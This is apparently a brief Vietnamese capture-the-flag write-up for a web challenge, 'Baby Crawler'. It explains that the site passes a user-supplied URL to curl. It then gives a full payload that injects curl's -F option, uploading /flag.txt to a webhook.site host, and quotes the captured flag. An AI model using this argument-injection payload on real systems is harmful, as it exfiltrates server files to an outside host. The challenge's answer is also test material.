 # Baby Crawler

Bài này cung cấp cho chúng ta source code
Sau khi thử với payload mà bài cho ta thấy được trang web sẽ thực hiện crawl nội dung html của payload mà ta chuyền vào vào file cache
Chính vì vậy ta có thể redirect file cache tải về theo host mà ta kiểm soát
Mình dùng option -F của curl để redirect file cache về host của mình trên webhook
Payload sẽ là:  *https://vnexpress.net/viet-nam-xuat-khau-sang-my-latinh-mot-ty-usd-moi-thang-4541275.html -F file=@/flag.txt https://webhook.site/e321f04e-a30a-4ffb-af21-9dd59c818fab*
Sau khi tải về mở lên và lấy flag thôi.

*Flag: CHH{b48Y_CUrl_CrAwl3r_5b0170b3ed22587bae9b17f9aeae60af}*
